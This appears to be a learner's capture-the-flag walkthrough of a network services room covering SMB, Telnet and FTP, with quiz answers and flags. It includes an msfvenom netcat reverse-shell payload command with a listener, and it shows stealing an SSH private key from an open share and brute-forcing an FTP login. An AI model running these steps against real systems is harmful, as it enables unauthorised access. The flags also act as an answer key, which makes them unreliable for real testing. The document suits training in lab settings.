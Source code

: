 - Note: Different IP addresses indicates that the task was completed on a different day. 
- Task 1: Get Connected
	- Ready? Let's get going!
		- No answer needed
- Task 2: Understanding SMB
	- What does SMB stand for?
		- Server Message Block
	- What type of protocol is SMB?
		- response-request
	- What do clients connect to servers using?
		- TCP/IP
	- What systems does Samba run on?
		- Unix
- Task 3: Enumerating SMB 
	- Conduct an **nmap** scan of your choosing, How many ports are open?
	  	- Used nmap -sS T4 10.10.22.206 for a quick, stealthy, and accurate scan. 
		- 3
	- What ports is **SMB** running on?
		- 139/445
	- Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?
		- WORKGROUP
	- What comes up as the **name** of the machine?
		- POLOSMB
	- What operating system **version** is running?
		- 6.1
	- What share sticks out as something we might want to investigate?
		- profiles
- Task 4: Exploiting SMB
	- What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
		- smbclient //10.10.10.2/secret -U suit -p 445
	- Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.
		- No answer needed
	- Does the share allow anonymous access? Y/N?
		- Y
	- Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?
		- John Cactus
	- What service has been configured to allow him to work from home?
		- ssh
	- Okay! Now we know this, what directory on the share should we look in?
		- .ssh
	- This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
		- id_rsa
	- Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".
		- ![[Pasted image 20241224075137.png]]
		- ![[Pasted image 20241223081545.png]]

	- Or
		-  ![[Pasted image 20241224080747.png]]
	- Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.
		-  cactus@polosmb
		- ![[Pasted image 20241224080804.png]]
		- ![[Pasted image 20241224080922.png]]
	- What is the smb.txt flag?
		- THM{smb_is_fun_eh?}
- Task 5: Understanding Telnet
	- What is Telnet?
		- application protocol
	- What has slowly replaced Telnet?
		- ssh
	- How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?
		- telnet 10.10.10.3 23
	- The lack of what, means that all Telnet communication is in plaintext?
		- encryption
- Task 6: Enumerating Telnet
	- How many **ports** are open on the target machine?
		- ![[Pasted image 20241225084648.png]]
		- 1
	- What **port** is this?
		- 8012
	- This port is unassigned, but still lists the **protocol** it's using, what protocol is this?
		- TCP
	- Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?
		- ![[Pasted image 20241225085004.png]]
		- 0
	- Here, we see that by assigning telnet to a **non-standard port**, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage.
		- No answer needed
	- Based on the title returned to us, what do we think this port could be **used for**?
		- ![[Pasted image 20241226072509.png]]
		- a backdoor
	- Who could it belong to? Gathering possible **usernames** is an important step in enumeration.
		- Skidy
	- Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.
		- No answer needed
- Task 7: Exploiting Telnet
	- Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
		- ![[Pasted image 20241229083921.png]]
		- No answer needed
	- Great! It's an open telnet connection! What welcome message do we receive?
		- SKIDY'S BACKDOOR.
	- Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)
		- N
	- Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.
		- No answer needed
	- Now, use the command **"ping [local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
		- ping on victim's machine
		- ![[Pasted image 20241229083820.png]]
		- sudo tcpdump ip proto \\icmp -i ens5 on attacker's machine
		- ![[Pasted image 20241228085027.png]]
		- Y
	- Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
		- No answer needed
	- We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
		- msfvenom -p cmd/unix/reverse_netcat lhost=[local ens5 ip] lport=4444 R
		- 
	- What word does the generated payload start with?
	- mkfifo
	- Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine.
		- "nc -lvnp [listening port chosen]"
	- What would the command look like for the listening port we selected in our payload?
		- nc -lvnp 4444
	- Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
		- ![[Pasted image 20241229083724.png]]
		- ![[Pasted image 20241229083342.png]]
		- No answer needed
	- Success! What is the contents of flag.txt?
		- THM{y0u_g0t_th3_t3ln3t_fl4g}
- Task 8: Understanding FTP
	- What communications model does FTP use?
		- client-server
	- What's the standard FTP port?
		- 21
	- How many modes of FTP connection are there?
		- 2 (active or passive)
- Task 9: Enumerating FTP
	- How many **ports** are open on the target machine?
		- ![[Pasted image 20241230081216.png]]
		- 2
	- What **port** is ftp running on?
		- 21
	- What **variant** of FTP is running on it?
		- vsftpd
	- Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "_ftp [IP]_" into the console, and entering "anonymous", and no password when prompted.
	- What is the name of the file in the anonymous FTP directory?
		- PUBLIC_NOTICE.txt
	- What do we think a possible username?
		- ![[Pasted image 20241230083857.png]]
		- ![[Pasted image 20241230084103.png]]
		- Mike
	- Great! Now we've got details about the FTP server and, crucially, a possible username. Let's see what we can do with that...
		- No answer needed
could be?
- Task 10: Exploiting FTP
	- What is the password for the user "mike"?
	- ![[Pasted image 20241230084727.png]]
	- password
	- ![[Pasted image 20241230084930.png]]
	- ![[Pasted image 20241230085015.png]]
	- THM{y0u_g0t_th3_ftp_fl4g}
- Task 11: Expanding your Knowledge
	- Well done, you did it!
		- No answer needed
